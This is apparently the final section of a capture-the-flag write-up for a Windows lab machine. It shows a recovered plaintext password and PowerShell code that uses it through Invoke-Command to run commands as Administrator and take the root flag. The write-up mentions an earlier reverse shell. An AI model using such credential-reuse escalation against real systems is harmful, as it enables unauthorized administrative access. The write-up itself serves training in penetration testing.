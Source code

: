 ```text
ThisPasswordShouldDo!@
```

From our reverse shell, we can switch to powershell and use `Invoke-Command` to run commands as the Administrator user and get the root.txt flag.

```powershell
$pass = ConvertTo-SecureString 'ThisPasswordShouldDo!@' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("Administrator", $pass)
Invoke-Command -Computer localhost -ScriptBlock {whoami} -Credential $cred
```
![image](https://i.imgur.com/OeTTIgn.png)

> [!IMPORTANT]  
> _As a last note I would like to thank everyone who took the time to rate and provide feedback as it helped a lot._



